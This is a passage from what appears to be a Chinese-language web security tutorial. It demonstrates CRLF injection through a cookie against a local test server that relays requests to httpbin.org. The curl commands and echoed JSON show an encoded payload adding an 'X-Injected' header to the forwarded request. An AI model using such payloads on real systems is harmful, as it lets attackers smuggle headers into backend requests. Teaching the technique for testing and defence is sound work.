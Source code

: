 ```
tom@slim:~ curl -s localhost:1234 -b 'trialGroups=A1,B2' 
`{`
  "args": `{``}`, 
  "data": "`{`\"method\":\"getPublicData\",\"params\":[]`}`", 
  "files": `{``}`, 
  "form": `{``}`, 
  "headers": `{`
    "Accept": "*/*", 
    "Connection": "close", 
    "Content-Length": "38", 
    "Content-Type": "application/json", 
    "Host": "httpbin.org", 
    "X-Trial-Groups": "A1,B2"
  `}`, 
  "json": `{`
    "method": "getPublicData", 
    "params": []
  `}`, 
  "origin": "X.X.X.X", 
  "url": "http://httpbin.org/post"
`}`
```

我使用[http://httpbin.org/post](http://httpbin.org/post)代替内部API端点，它返回一个JSON文档，描述发送的POST请求，文档中包括请求中的所有POST数据和标头。

有关响应一个需要向大家提一下的事项是发送到httpbin.org的X-Trial-Groups标头包含trialGroups cookie中的A1，B2字符串。 然后现在试一下一些CRLF（回车换行）注入：

```
tom@slim:~ curl -s localhost:1234 -b 'trialGroups=A1,B2%0d%0aX-Injected:%20true' 
`{`
  "args": `{``}`, 
  "data": "`{`\"method\":\"getPublicData\",\"params\":[]`}`", 
  "files": `{``}`, 
  "form": `{``}`, 
  "headers": `{`
    "Accept": "*/*", 
    "Connection": "close", 
    "Content-Length": "38", 
    "Content-Type": "application/json", 
    "Host": "httpbin.org", 
    "X-Injected": "true", 
    "X-Trial-Groups": "A1,B2"
  `}`, 
  "json": `{`
    "method": "getPublicData", 
    "params": []
  `}`, 
  "origin": "X.X.X.X", 
  "url": "http://httpbin.org/post"
`}`
```
